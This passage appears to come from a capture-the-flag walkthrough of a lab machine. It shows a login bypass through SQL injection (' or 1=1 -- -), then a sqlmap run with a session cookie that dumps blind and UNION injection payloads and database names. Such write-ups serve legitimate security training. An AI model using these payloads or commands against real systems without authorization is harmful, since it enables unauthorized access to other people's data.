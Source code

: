It's a login page. Tried some default creds but got nothing.

But I managed to login by doing a SQL injection.

```sql
' or 1=1 -- -
```

![admin](3.png)

We got in!

Since the login page was vulnerable to sql injection I though maybe there might be another functionality vulnerable too somewhere in the website.

After some digging I found the following page.

![payroll](4.png)

### SQL injection

I gave the url to `sqlmap` along with my cookie and run it.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 10:54]-[/tmp/driver]                                                                                                                               
└──╼[★]$ sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' --dbs
        ___                                                                                                                                                                                   
       __H__                                                                                                                                                                                  
 ___ ___[(]_____ ___ ___  {1.8.12#stable}                                                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                                                     
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                     
      |_|V...       |_|   https://sqlmap.org                                                   

Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=payroll_items&id=(SELECT (CASE WHEN (1340=1340) THEN 1 ELSE (SELECT 8601 UNION SELECT 3617) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=payroll_items&id=1 AND (SELECT 9106 FROM (SELECT(SLEEP(5)))auJY)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: page=payroll_items&id=-5852 UNION ALL SELECT NULL,CONCAT(0x7162767071,0x634f666b55444c54444c41504651536f7165616d634c7968634e646448796241557466474d6b7049,0x7162627071),NULL,NULL,
NULL,NULL,NULL-- -
---
[10:55:03] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:55:03] [INFO] fetching database names
[10:55:04] [WARNING] reflective value(s) found and filtering out
[10:55:04] [INFO] retrieved: 'information_schema'
[10:55:04] [INFO] retrieved: 'payroll_db'
available databases [2]:                                                                                                                                                                      
[*] information_schema
[*] payroll_db
```